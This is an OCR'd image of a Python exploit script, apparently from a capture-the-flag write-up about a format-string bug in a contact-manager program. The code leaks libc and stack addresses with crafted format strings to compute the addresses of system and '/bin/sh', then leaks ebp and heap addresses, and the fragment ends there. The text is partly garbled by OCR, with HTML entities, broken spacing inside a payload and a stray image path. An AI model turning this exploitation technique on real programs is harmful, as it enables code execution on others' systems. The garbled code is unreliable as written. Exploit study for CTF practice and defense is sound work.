 ```python

    sh.recvuntil('Description: ')





## get system addr & binsh_addr

payload = &#39;% 31 $ paaaa&#39;
createcontact('1111', '1111', '111', payload)

print contact ()
libc_start_main_ret = int(sh.recvuntil('aaaa', drop=True), 16)

log.success('get libc_start_main_ret addr: ' + hex(libc_start_main_ret))

libc = LibcSearcher('__libc_start_main_ret', libc_start_main_ret)

libc_base = libc_start_main_ret - libc.dump('__libc_start_main_ret')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

log.success('get system addr: ' + hex(system_addr))

log.success('get binsh addr: ' + hex(binsh_addr))

##gdb.attach(sh)



## get heap addr and ebp addr

payload = flat([

    system_addr,

&#39;yyyah&#39;,
    binsh_addr,

    '%6$p%11$pcccc',

])

createcontact('2222', '2222', '222', payload)

print contact ()
sh.recvuntil('Description: ')

data = sh.recvuntil('cccc', drop=True)

data = data.split('0x')

print data

ebp_addr = int(data[1], 16)

heap_addr = int(data[2], 16)



```